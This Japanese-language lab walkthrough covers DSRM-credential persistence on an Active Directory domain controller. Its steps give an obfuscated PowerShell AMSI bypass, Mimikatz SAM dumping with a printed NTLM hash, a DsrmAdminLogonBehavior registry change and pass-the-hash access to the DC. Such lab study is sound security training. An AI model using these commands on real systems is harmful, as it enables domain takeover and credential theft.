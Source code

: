 ## 簡易的な説明
先に取得したドメイン管理者権限を使用して、DSRMクレデンシャルを永続化のために悪用する。

## 詳細
DSRM管理者を悪用することで、一度ドメイン管理者を取得すれば、DCの管理者アクセス権を維持することができる。

1. 先に取得したドメイン管理者権限で、DC上で次のコマンドを実行してPowerShellリモーティングセッションを開く。
※SafetyKatz、BetterSafetyKatzなどの他のツールも使用できる。
```
PS C:\AD\Tools\> $sess = New-PSSession dcorp-dc 
PS C:\AD\Tools\> Enter-PSSession -Session $sess 
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' +  'IA' + 
(("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  
) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  
)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" 
f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f 
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( 
"{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 
'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" 
f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ) 
[dcorp-dc]: PS C:\Users\svcadmin\Documents>exit
```
---
2. セッションに**Invoke-Mimi.ps1**をロードさせる。
これはローカルの端末で行う。(セッションのコネクト元で行う。)
```
PS C:\AD\Tools\> Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```
---
3. DCのSAMファイルから認証情報を抽出する。
ディレクトリサービス復元モード(DSRM)を利用しパスワードを抽出する。
```
PS C:\AD\Tools> Enter-PSSession -Session $sess 
 
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimi -Command '"token::elevate" "lsadump::sam"' 
  
  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 18:36:14 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) 
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) 
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz 
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 
 
mimikatz(powershell) # token::elevate 
Token Id  : 0 
User name : 
SID name  : NT AUTHORITY\SYSTEM 
 
620     {0;000003e7} 1 D 19120          NT AUTHORITY\SYSTEM     S-1-5-18        
(04g,21p)       Primary 
 -> Impersonated ! 
 * Process Token : {0;0084a269} 0 D 8693174     dcorp\Administrator     S-1
5-21-719815819-3726368948-3917688648-500   (12g,26p)        Primary 
 * Thread Token  : {0;000003e7} 1 D 8881623     NT AUTHORITY\SYSTEM     S-1
5-18        (04g,21p)       Impersonation (Delegation) 
  
mimikatz(powershell) # lsadump::sam 
Domain : DCORP-DC 
SysKey : bab78acd91795c983aef0534e0db38c7 
Local SID : S-1-5-21-627273635-3076012327-2140009870 
 
SAMKey : f3a9473cb084668dcf1d7e5f47562659 
 
RID  : 000001f4 (500) 
User : Administrator ←ここが重要
Hash NTLM: a102ad5753f4c441e3af31c97fad86fd ←ここが重要 
[snip] 
```
---
4. 得た資格情報を利用してDSRM管理者がネットワーク認証を成功させるためにDC上のレジストリを変更してログオンできるようにする。
```
[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD 
```
---
5. これでローカルシステムからDSRM管理者のハッシュを渡すことができる。(ローカルの管理者権限であればこの方法で接続できる。)
```
PS C:\AD\Tools\Tools> Invoke-Mimi -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"' 
  
[snip] 
 
mimikatz(powershell) # sekurlsa::pth /domain:dcorp-dc /user:Administrator 
/ntlm:a102ad5753f4c441e3af31c97fad86fd  /run:powershell.exe 
user : Administrator 
domain  : dcorp-dc 
program : powershell.exe 
impers. : no 
NTLM : a102ad5753f4c441e3af31c97fad86fd 
[snip]
```
---
6. アクセスチェック。(管理者権限でCMDを立ち上げチェック)
```
PS C:\Windows\System32> ls \\dcorp-dc.dollarcorp.moneycorp.local\c$ 
  
 Directory: \\dcorp-dc.dollarcorp.moneycorp.local\c$ 
 Mode                LastWriteTime         Length Name ----                -------------         ------ ---- 
05/08/2021  12:20 AM    <DIR>          PerfLogs 
11/14/2022  10:12 PM    <DIR>          Program Files 
05/08/2021  01:40 AM    <DIR>          Program Files (x86) 
03/03/2023  08:19 AM    <DIR>          Users 
11/11/2022  09:58 PM    <DIR>          Windows
```
---
